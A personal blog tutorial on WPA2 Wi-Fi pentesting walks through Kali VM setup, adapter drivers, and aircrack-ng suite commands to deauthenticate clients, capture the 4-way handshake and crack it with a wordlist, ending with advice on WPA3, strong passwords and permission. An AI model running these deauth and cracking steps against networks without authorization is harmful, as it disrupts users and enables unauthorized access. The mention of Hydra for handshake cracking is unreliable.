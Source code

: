 ```yaml
---
title: Basic Wi-Fi Pentesting for WPA2
image: wificap.png
date: 2024-12-29 12:00:00 
categories: [pentesting, WiFi]
tags: [pentesting,WiFi]
---
```


Understanding how to protect networks involves knowing how a malicious user might gain access to them. As I’ve been diving deeper into computer networking, this has been a fascinating aspect to explore. Wi-Fi is ubiquitous in places like coffee shops, airports, and other public spaces. However, connecting to these public or private networks can expose you to potential security vulnerabilities.

Malicious users with the right knowledge can craft specially designed packets using devices that are readily available to anyone and gain access to your data. Learning how this process works not only deepens your understanding of Wi-Fi and networking but also helps you implement additional layers of digital protection and privacy.

### Items Needed
1. **Linux** - Or generally an OS that can run `Aircrack-NG` in my case I usually run windows so I will create a Kali-Linux VM via VMWare Workstation Pro (*which is now free*). *Important Note: WSL cannot be used since it does not provide direct access to hardware in a way that we need for Wi-Fi pentesting*.
2. **Wi-Fi Adapter** - Specifically a Wi-Fi adapter that supports `monitor` and `injection` mode. **Monitor** mode allows a Wi-Fi adapter to capture all traffic on a wireless channel. **Packet injection** is the ability to send custom-crafted packets into a wireless network. I am using an **Alfa AWUS036ACS** which can be bought on Amazon [here](https://www.amazon.com/dp/B0752CTSGD/ref=sspa_dk_offsite_brave_1?psc=1&aaxitk=4014b99b16b075863f0b3b6447408f29&tqtoken=AgR4Y9PWIXUukaBjv-op0zX0-SyxVxeyoK5BVfrhRLVjmJ8AGgABAAlyZWNpcGllbnQAC0FtYXpvbkFkc1RRAAEAEWF3cy1rbXMtaGllcmFyY2h5ACRiM2NlMjE3OS0wMzJhLTQ5NTAtOWFlZC00MTczZDMxZmNhMmEAXLjXqg3ReSo3HdyIoFDbgpTJYjTQnGoKYpYA-o7tK8nXMwFE6ZdgvB9GW5UInNQKsTpnnPhDqrDmHkr7fkpb37WKo134WKgmbxvTagN2O9jrPE-U4n_WuHZ4qOWnAgAAEAC5voq23nnjYvblpUf7EksMhdrCtA8am7IHl77pRCHxOVJdacwMRdS7jebcEjcKBhv_____AAAAAQAAAAAAAAAAAAAAAQAAABrOEjddTsQ7KAZBhLRM7jfCddHAIACOzguyfylRcIHLhffW7MCI8RjR2-I=).

### Getting Linux Running

To get the Kali Linux distribution running on my Windows OS machine, I created an account with VMWare and downloaded [VMWare Workstation Pro](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion).

Next, I downloaded the Kali Linux VMWare `.iso` file from the official Kali Linux site [here](https://www.kali.org/get-kali/#kali-virtual-machines) and used it to create a virtual machine. I won’t go into the specific steps for this, as there are numerous tutorials and videos available online to guide you through the process.

### Configuring Drivers

Once the virtual machine is set up and running, and you’ve logged into Kali, you’ll notice that when the Wi-Fi adapter is plugged in, you’ll have the option to choose where it should be connected. Select the `virtual machine` or `linux` option.

![VM Ware Connection](VMwareconnection.png)

However, once the device is connected and you open the terminal to execute the `iwconfig` command (which displays connected wireless devices), you’ll see no wireless interfaces listed. This happens because the necessary drivers for the Alfa Wi-Fi adapter are not yet installed.

![Iwconfig Command](iwconfig.png)
*iwconfig command*

**Steps to Configure Drivers**
1. `sudo apt update && sudo apt upgrade`- Should be the first thing done on any fresh Linux install, ensures software is up-to-date.
2. `sudo apt dist-upgrade -y` - Additional update checks, after this is done **reboot** the VM.
3. `sudo apt install realtek-rtl88xxau-dkms` - Downloads the drivers for the chipset used by the Wi-Fi adapter itself.
4. `git clone https://github.com/aircrack-ng/rtl8812au` - Downloads additional drivers for the Wi-Fi adapter from github. After this, `CD` to the directory then use the `make` command then the `make install` command which will compile the drivers so it can be installed.
5. `sudo make install` - From the same directory as step 4.
6. Unplug and replug the Wi-Fi adapter and we will now see the adapter show when typing the `iwconfig` command. We are now ready to begin.

![alt text](wlan0.png)

### High-Level Wi-Fi Pentesting Process for WPA2
To successfully gain access to a private Wi-Fi network, we must first locate the network and ensure we are physically close enough to it. Once the network is discovered, we will use the Wi-Fi adapter to inject *deauthentication* packets into the network's traffic, forcing connected clients to disconnect.

After disconnecting the clients, we will *monitor* for clients reconnecting and use a network protocol analyzer like **Wireshark** to capture and analyze the traffic during the reconnection process. This allows us to locate the WPA2 4-way handshake packets, where the network shares a hashed version of the Wi-Fi password. The **4-way handshake** involves exchanging messages to verify the pre-shared key (PSK) and generate a unique session key (Pairwise Transient Key or PTK) for encrypting data, while ensuring the actual PSK is never transmitted in clear text.

Hence why we will capture the hash and crack it using password-cracking techniques, combined with using a wordlist like `rockyou.txt` and a Linux tool such as `Hydra` to attempt to decrypt the hash.


##### Why only WPA2 and below?
It is important to note that this process is possible for Wi-Fi networks using WPA2 level security and below. It does not work for WPA3 since it uses **SAE** or *simulataneous authentication of equals* also known as the dragon fly key exchange. In WPA2 and below the PSK (Pre-shared key) is exposed as a hash.

![WPA2 4 Way Handshake](4way.png)
*WPA2 4-Way Handshake*

WPA3 does not directly use the PSK for authentication, instead a unique **session key** is used for every connection attempt. This makes WPA3 resistant to the offline brute-force and dictionary attacks that were possible in WPA2.

### The Actual Commands Needed
1. We are using **airmon-ng** to enable monitor mode so we must first check for conflicting processes that can interupt this process so use the command `sudo airmon-ng check kill`. 

2. Enable monitor mode via the command `sudo airmon-ng start wlan0`. `Wlan0` is the interface as `eth0` is used for internet connectivity and not monitor mode and injection, so technically we can still ping google.com at this point. 
![alt text](startwlan.png)

3. Disover nearby networks via the command `sudo airodump-ng wlan0mon`. Take note of the **BSSID (MAC address)** and channel of the target network.

4.  In a separete terminal window capture the handshake via the command `sudo airodump-ng --bssid [BSSID] -c [Channel] -w [capture-file] wlan0`. Replace `[BSSID]` with the target network's BSSID, `[Channel]` with the network's channel number, and `[capture-file]` with the desired filename for capturing the packets. At this point we will wait for a client to reconnect and trigger the handshake.

5. To force clients to reconnect to the network so we do not have to wait we will forcefully deauthenticate clients. Use the command `sudo aireplay-ng --deauth 10 -a [BSSID] wlan0`, again replace the following information in the [] as necessary. 

6. To confirm the handshake is captured ensure it is shown in the specific network's monitoring section, shown below. 
![alt text](wpahandshake.png)

7. Open the `.cap` file using the command `wireshark [.cap file name] &`, from here the packets can be inspected but to actually crack the hash from the handshake use the command `sudo aircrack-ng [capture-file].cap -w rockyou.txt`. 

Now if the password is in the wordlist `aircrack-ng` will find it and display the WPA2 password in the terminal. If the password isn't found, we will need to try a different wordlist or approach (e.g., custom wordlists, more advanced cracking techniques) that will be covered in future articles.

![alt text](keyfound.png)
*Wi-Fi Password is spiderman*

#### The Final Message 
Please use **strong encryption** when possible (WPA3).

Please use **strong passwords** that have a mix of uppercase letters, lowercase letters, numbers, and special characters. 

WiFi hacking should only be performed on networks you have **explicit permission** to test, ensuring that all actions are ethical and legal under applicable laws and regulations.

Hope you enjoyed the first pentesting article, more to come!

